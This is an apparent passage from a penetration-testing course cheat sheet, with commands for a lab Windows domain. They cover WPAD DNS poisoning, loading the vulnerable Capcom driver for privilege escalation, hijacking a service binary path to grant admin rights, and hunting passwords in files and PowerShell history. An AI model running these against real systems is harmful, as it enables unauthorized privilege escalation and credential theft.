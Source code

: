 > Deleting a registry key

`sc query dns`

> Checking a service status

`Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`

> Disabling the global query block list

`Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3`

> Adding a WPAD record

`cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`

> Compile with cl.exe

`reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`

> Add reference to a driver (1)

`reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`

> Add reference to a driver (2)

`.\DriverView.exe /stext drivers.txt` and `cat drivers.txt | Select-String -pattern Capcom`

> Check if driver is loaded

`EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys`

> Using EopLoadDriver

`c:\Tools\PsService.exe security AppReadiness`

> Checking service permissions with PsService

`sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`

> Modifying a service binary path

## Credential Theft`findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`

> Search for files with the phrase "password"

`gc 'C:\Users\lafi\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password`

> Searching for passwords in Chrome dictionary files

`(Get-PSReadLineOption).HistorySavePath`

> Confirm PowerShell history save path

`gc (Get-PSReadLineOption).HistorySavePath`

> Reading PowerShell history file

`$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`
